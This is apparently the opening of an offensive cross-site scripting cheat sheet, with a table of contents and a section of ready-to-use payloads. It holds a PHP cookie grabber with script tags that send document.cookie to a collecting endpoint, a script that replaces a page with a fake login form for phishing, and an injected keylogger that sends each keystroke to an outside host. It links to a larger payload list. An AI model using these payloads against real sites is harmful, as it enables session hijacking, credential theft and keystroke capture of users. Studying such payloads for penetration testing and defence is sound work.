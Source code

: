# Cross Site Scripting

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

- [Exploit code or POC](#exploit-code-or-poc)
- [Identify an XSS endpoint](#identify-an-xss-endpoint)
- [XSS in HTML/Applications](#xss-in-htmlapplications)
- [XSS in wrappers javascript and data URI](#xss-in-wrappers-javascript-and-data-uri)
- [XSS in files (XML/SVG/CSS/Flash/Markdown)](#xss-in-files)
- [Blind XSS](#blind-xss)
- [Polyglot XSS](#polyglot-xss)
- [Filter Bypass and Exotic payloads](#filter-bypass-and-exotic-payloads)
- [CSP Bypass](#csp-bypass)
- [Common WAF Bypas](#common-waf-bypass)

## Exploit code or POC

Cookie grabber for XSS

```php
<?php
// How to use it
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
or
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>

// Write the cookie in a file
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);

?>
```

UI redressing (Sophisticated phishing)

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

Keylogger for XSS

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

